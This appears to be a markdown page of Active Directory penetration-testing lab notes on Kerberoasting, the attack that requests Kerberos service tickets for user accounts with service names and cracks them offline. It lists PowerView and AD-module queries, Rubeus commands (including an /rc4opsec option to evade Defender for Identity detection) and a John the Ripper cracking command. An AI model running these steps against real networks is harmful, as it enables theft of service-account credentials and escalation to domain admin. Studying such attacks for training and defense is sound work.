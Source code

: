 # Privilege Escalaion - Kerberoasting

So, the scenario is if we compromise student 1 then identify student1 has local admin rights on another machine we escalate privilege and move to that machine and dump hashes and comrpomise another account which is local admin on another machine then we move to that machine from initial machine and dump hash and again comromise new user and find he/she is local admin on another machine where Domain Admin has session so we move to that machine and dump DA creds but imagine after compromising a user we do not find that he/she has local admin rights on any machine or it can be that from initial machine student1 may not have local admin rights on any other machine or it can be that we donot find other paths where compromised user has session in such case try kerberoasting.

# Kerberoasting
It is an attack against service accounts. Since the service tickets are encrypted with ntlm hash of service account and any domain user is able to request service ticket for any service on the machine, in this attack we request service ticket from the Ticket Granting Server in the DC and extract the ntlm hash of that service by bruteforcing with hashcat or john offline. Here we always target user accounts that are used as service accounts because regular service account passwords are generated by DC and quiet random and hard to bruteforce and also are changed frequenly automatically.

# Find user accounts used as Service accounts

- Using AD module
```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
- Using PowerView
```
Get-DomainUser -SPN
```
- Using rubeus to list kerberoast stats
```
Rubeus.exe kerberoast /stats
``` 
- Use Rubeus to request a TGS
```
Rubeus.exe kerberoast /user:svcadmin /simple
```
- To avoid detections based on Encryption Downgrade for Kerberos EType(used by likes of MDI -0x17 stands for rc4-hmac), look for Kerberoastableaccounts that only support RC4_HMAC
```
Rubeus.exe kerberoast /stats /rc4opsec 
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
```
- Kerberoast all possible accounts
```
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```
- Crack the ticket using john the ripper
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
- After this over pass the hash as this service account and use find local admin access.